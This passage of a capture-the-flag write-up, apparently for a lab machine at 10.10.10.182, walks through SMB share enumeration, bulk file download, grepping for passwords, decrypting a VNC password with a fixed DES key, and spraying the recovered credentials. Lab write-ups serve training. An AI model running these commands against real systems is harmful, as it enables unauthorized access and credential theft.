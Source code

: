 ```
nxc smb 10.10.10.182 -u r.thompson -p 'rY4n5eva' --shares
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921125143.png)

Next is getting all available files to my kali vm

```
smbclient \\\\10.10.10.182\\Data -U r.thompson

prompt OFF
recurse On
mget *
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921131011.png)

In box directory I used 

```
grep -ri password
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921131419.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921131432.png)

Here we found username TempAdmin and password is same as normal admin user
Next I found inretesting file in /IT/Temp/s.smith/VNC Install.reg and there is password in hex

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921132107.png)

Tried to decode via cyberchief from hex but doesn't work so I searched for vnc hex password decode, and found: 
https://github.com/billchaison/VNCDecrypt

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921132601.png)

and  we got probably steve password
validating passwords with known users

```
nxc smb 10.10.10.182 -u users -p 'sT333ve2' --continue-on-success
```

Checking shares as s.smith we got new access to Audit$ share

```
nxc smb 10.10.10.182 -u s.smith -p 'sT333ve2' --shares
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250921132845.png)
